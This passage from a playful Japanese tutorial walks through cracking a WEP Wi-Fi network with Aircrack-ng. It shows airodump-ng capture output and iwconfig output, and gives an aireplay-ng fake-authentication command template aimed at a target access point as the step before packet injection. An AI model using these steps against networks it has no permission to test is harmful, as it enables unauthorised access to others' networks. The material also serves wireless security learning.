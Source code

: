 \-\-\-\-\-
 CH  1 ][ Elapsed: 30 s ][ 2007\-05\-24 11:40

 BSSID              PWR  Beacons    \#Data, \#/s  CH  MB  ENC  CIPHER AUTH ESSID

 00:11:22:33:44:55   61      342       36    0   1  54  WEP  WEP         niceboat

 BSSID              STATION            PWR  Lost  Packets  Probes

 00:11:22:33:44:55  AA:BB:CC:DD:EE:FF   55     0       63  niceboat
\-\-\-\-\-

　ここで雅な人はお気づきだと思いますが、普通にネットサーフィン（死語）し
ただけではゴーホームしたいぐらい全然まったくIVを頂くことができないコトが
わかります。なんだよどーすんだよ放置プレイかよ苦手だよなどといった心配し
ちゃうかもしれませんが、こんなこともあろうかとAircrack\-ngタンには「airepla
y\-ng」というものが装備されています。なななんとコイツはこっちから能動的に
パケットを大量発生させるコト（パケットインジェクション）ができちゃうんで
す！　すげえ！

　さて、いつまでたっても増えない\#Dataを見ていたってしょうがないので、さっ
そくパケットインジェクションを実行していきましょう。
　airodump\-ngを動かしつつ、新しいターミナルを開いて「aireplay\-ng \-1 <何秒
ごとに実行するか> \-a <ターゲットAPのBSSID> \-h <使用するNICのMACアドレス> 
\-e <ターゲットAPのESSID> <使用するNIC>」と入力し、ターゲットAPにfakeauth
（ターゲットAPとNICの関連付け）をします。使用するNICのMACアドレスはiwcof
igコマンドで確認しておいてください。

\-\-\-\-\-
\# iwconfig
lo        no wireless extensions.

eth0      no wireless extensions.

wifi0     no wireless extensions.

ath0      IEEE 802.11g  ESSID:""  Nickname:""
          Mode:Managed  Frequency:2.457 GHz  Access Point: Not\-Associated
          Bit Rate:0 kb/s   Tx\-Power:17 dBm   Sensitivity\=1/1
          Retry:off   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
          Link Quality\=0/70  Signal level\=\-98 dBm  Noise level\=\-98 dBm
          Rx invalid nwid:2278  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0

ath1      IEEE 802.11g  ESSID:""  Nickname:""
          Mode:Monitor  Frequency:2.457 GHz  Access Point: ZZ:ZZ:ZZ:ZZ:ZZ:ZZ
          Bit Rate:0 kb/s   Tx\-Power:17 dBm   Sensitivity\=1/1
          Retry:off   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
          Link Quality\=0/70  Signal level\=\-98 dBm  Noise level\=\-98 dBm
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0
